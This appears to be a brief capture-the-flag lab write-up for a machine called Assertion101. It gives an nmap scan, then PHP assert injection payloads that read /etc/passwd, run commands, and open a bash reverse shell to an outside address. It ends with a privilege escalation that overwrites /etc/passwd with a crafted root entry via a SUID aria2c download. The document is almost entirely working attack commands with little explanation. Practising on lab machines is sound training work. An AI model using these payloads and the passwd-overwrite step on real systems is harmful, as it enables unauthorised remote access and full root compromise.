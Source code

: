 # Assertion101

***

IP=192.168.192.94

## NMAP

| Port Number | Service |
| ----------- | ------- |
| 22          | SSH     |
| 80          | HTTP    |

```perl
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6eceaacc02dea5a3585dda2bef5407f9 (RSA)
|   256 9d3fdf167ae15958844ae3298f44878d (ECDSA)
|_  256 87b56ff82181d33b43d04081c0e36989 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## 80

### LFI via PHP's 'assert'

https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert

```bash
' and die(show_source('/etc/passwd')) or '
```

#### RCE via assert

```bash
' and die(system("whoami")) or '
```

#### Shell

```bash
'+and+die(system("bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.169/1234+0>%261'"))+or+'
```

## PrivEsc

### SUID aria2c

```bash
find / -perm -4000 2>/dev/null
```

```bash
openssl passwd
$1$x8g0v8Xh$O8BusfRSynJjM41.Gbqlh0
```

passwd

```bash
root:HHSomvHwFeyi2:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

```bash
aria2c -o /etc/passwd "http://192.168.45.169/passwd" --allow-overwrite=true
```
